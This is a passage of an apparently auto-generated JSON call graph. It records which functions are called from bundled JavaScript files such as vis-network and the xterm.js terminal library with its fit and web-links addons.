"static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "proposeDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "proposeDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-fit-0.7.0.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "computeLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "hover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "_translateBufferLineToStringWithWrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "registerLinkMatcher"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "deregisterLinkMatcher"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm-addon-web-links-0.5.0.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createAccessibilityTreeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleBoundaryFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowsDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertAdjacentElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleChar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearLiveRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowsDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowsDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTab"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleChar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleChar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearLiveRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearLiveRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_announceCharacters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_announceCharacters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleBoundaryFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createAccessibilityTreeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertAdjacentElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createAccessibilityTreeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createAccessibilityTreeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowsDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createAccessibilityTreeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowsDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshRowDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rightClickSelect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "currentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearCurrentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearCurrentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_positionFromMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "composedPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearCurrentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_askForLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearCurrentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_askForLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_askForLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkLinkProviderResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "provideLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkLinkProviderResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeIntersectingLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeIntersectingLinks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkLinkProviderResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleNewLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleNewLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_positionFromMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearCurrentLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkLeave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleNewLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_positionFromMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_positionFromMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_askForLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createLinkUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkLeave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_linkAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_positionFromMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createLinkUnderlineEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": 